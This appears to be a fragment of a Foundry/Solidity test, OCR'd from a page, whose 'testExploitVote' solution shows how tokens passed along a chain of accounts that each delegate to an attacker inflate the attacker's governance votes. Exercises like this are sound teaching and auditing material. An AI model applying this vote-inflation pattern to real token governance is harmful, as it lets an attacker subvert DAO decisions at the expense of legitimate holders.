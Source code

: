 ```solidity

    address public alice = address(1);
    address public bob = address(2);
    address public carl = address(3);

    function setUp() public {
        vm.startPrank(owner);
        vToken = new VoteToken();
        vToken.mint(alice, 1000);
        vm.stopPrank();
    }

    function testExploitVote() public {
        // soluiton
        vToken.delegate(hacker);
        vToken.transfer(bob, vToken.balanceOf(alice));

        vm.stopPrank();

        vm.startPrank(bob);
        vToken.delegate(hacker);
        vToken.transfer(carl, vToken.balanceOf(bob));

        vm.stopPrank();

        vm.startPrank(carl);
        vToken.delegate(hacker);
        vToken.transfer(hacker, vToken.balanceOf(carl));

        vm.stopPrank();

        uint256 hacker_vote = vToken.getVotes(hacker);
        console.log("Vote Count of Hacker before attack: %s ", hacker_vote);

        uint256 hacker_balance = vToken.balanceOf(hacker);
        console.log("Hacker's vToken after the attack: %s: ", hacker_balance);

        assertEq(hacker_vote, 1000);
        assertEq(hacker_balance, 1000);
    }
}
```